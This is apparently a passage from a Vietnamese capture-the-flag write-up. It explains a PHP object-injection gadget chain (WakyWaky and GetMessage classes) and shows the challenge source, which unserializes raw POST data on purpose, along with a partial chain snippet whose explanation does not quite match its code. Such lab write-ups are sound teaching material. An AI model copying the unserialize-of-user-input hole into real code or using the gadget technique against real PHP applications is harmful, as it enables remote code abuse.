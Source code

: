```
$obj2 = new WakyWaky();
$obj3 = new WakyWaky(); 
$obj3->msg = $obj2;
```

Xâu chuỗi lại các gadget chains, ta sẽ gán đối tượng obj1 cho thuộc tính `msg` của đối tượng obj2, khi unserialize sẽ gọi đến `__toString()` của class GetMessage và return giá trị `$obj1->receive = "HelloBooooooy"` cho `"[YOU]: ".$this->msg."<br>"`

Cuối cùng, chuỗi serialized object sẽ được tạo như sau:

```php
<?php
 
$getflag = false;
 
class GetMessage {
    function __construct($receive) {
        if ($receive === "HelloBooooooy") {
            die("[FRIEND]: Ahahah you get fooled by my security my friend!<br>");
        } else {
            $this->receive = $receive;
        }
    }
 
    function __toString() {
        return $this->receive;
    }
 
    function __destruct() {
        global $getflag;
        if ($this->receive !== "HelloBooooooy") {
            die("[FRIEND]: Hm.. you don't see to be the friend I was waiting for..<br>");
        } else {
            if ($getflag) {
                include("flag.php");
                echo "[FRIEND]: Oh ! Hi! Let me show you my secret: ".$FLAG . "<br>";
            }
        }
    }
}
 
class WakyWaky {
    function __wakeup() {
        echo "[YOU]: ".$this->msg."<br>";
    }
 
    function __toString() {
        global $getflag;
        $getflag = true;
        return (new GetMessage($this->msg))->receive;
    }
}
 
if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    die();
}
 
if (isset($_POST["data"]) && !empty($_POST["data"])) {
    unserialize($_POST["data"]);
}
 

```